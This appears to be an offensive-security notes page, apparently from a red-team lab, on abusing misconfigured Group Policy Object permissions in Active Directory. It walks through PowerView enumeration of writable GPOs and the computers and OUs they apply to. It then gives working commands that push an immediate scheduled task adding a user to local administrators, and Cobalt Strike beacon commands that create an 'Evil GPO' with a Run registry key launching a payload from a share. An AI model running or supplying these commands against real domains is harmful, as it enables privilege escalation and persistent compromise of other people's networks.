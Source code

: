 ```
Get-ObjectAcl -ResolveGUIDs | ? {$_.IdentityReference -eq "OFFENSE\spotless"}
```

The below indicates that the user `offense\spotless` has **WriteProperty**, **WriteDacl**, **WriteOwner** privileges among a couple of others that are ripe for abuse
![[image 12.avif]]We know the above ObjectDN from the above screenshot is referring to the New Group Policy Object GPO since the ObjectDN points to CN=Policies and also the CN={DDC640FF-634A-4442-BC2E-C05EED132F0C}

If we want to search for misconfigured GPOs specifically, we can chain multiple cmdlets from PowerSploit like so:
```
Get-NetGPO | %{Get-ObjectAcl -ResolveGUIDs -Name $_.Name} | ? {$_.IdentityReference -eq "OFFENSE\spotless"}
```
![[image 13.avif]]We can now resolve the computer names the GPO `Misconfigured Policy` is applied to:

```
Get-NetOU -GUID "{DDC640FF-634A-4442-BC2E-C05EED132F0C}" | % {Get-NetComputer -ADSpath $_}
```
![[image 14.avif]]

## Policies Applied to a Given Computer

```
Get-DomainGPO -ComputerIdentity ws01 -Properties Name, DisplayName
```
![[image 20.png]]

## OUs with a Given Policy Applied
```
Get-DomainOU -GPLink "{DDC640FF-634A-4442-BC2E-C05EED132F0C}" -Properties DistinguishedName
```
![[image 21.png]]

## Abusing Weak GPO Permissions

One of the ways to abuse this misconfiguration and get code execution is to create an immediate scheduled task through the GPO like so:

```
New-GPOImmediateTask -TaskName evilTask -Command cmd -CommandArguments "/c net localgroup administrators spotless /add" -GPODisplayName "Misconfigured Policy" -Verbose -Force
```
![[image 15.avif]]
## Force Policy Update

ScheduledTask and its code will execute after the policy updates are pushed through (roughly each 90 minutes), but we can force it with `gpupdate /force` and see that our user `spotless` now belongs to local administrators group:
![[image 22.png]]


## Check if we can create and link GPO
  This shows that members of the "Developers" group can create new GPOs.
```
beacon> powershell Get-DomainObjectAcl -Identity "CN=Policies,CN=System,DC=dev,DC=cyberbotic,DC=io" -ResolveGUIDs | ? { $_.ObjectAceType -eq "Group-Policy-Container" -and $_.ActiveDirectoryRights -contains "CreateChild" } | % { ConvertFrom-SID $_.SecurityIdentifier }

DEV\Developers
```
This shows that members of the "Developers" group can link GPOs to the "Workstations" OU.
```
beacon> powershell Get-DomainOU | Get-DomainObjectAcl -ResolveGUIDs | ? { $_.ObjectAceType -eq "GP-Link" -and $_.ActiveDirectoryRights -match "WriteProperty" } | select ObjectDN,ActiveDirectoryRights,ObjectAceType,SecurityIdentifier | fl

ObjectDN              : OU=Workstations,DC=dev,DC=cyberbotic,DC=io
ActiveDirectoryRights : ReadProperty, WriteProperty
ObjectAceType         : GP-Link
SecurityIdentifier    : S-1-5-21-569305411-121244042-2357301523-1107

beacon> powershell ConvertFrom-SID S-1-5-21-569305411-121244042-2357301523-1107
DEV\Developers
```

```
powershell New-GPO -Name "Evil GPO"

beacon> powershell Set-GPPrefRegistryValue -Name "Evil GPO" -Context Computer -Action Create -Key "HKLM\Software\Microsoft\Windows\CurrentVersion\Run" -ValueName "Updater" -Value "C:\Windows\System32\cmd.exe /c \\dc-2\software\dns_x64.exe" -Type ExpandString
```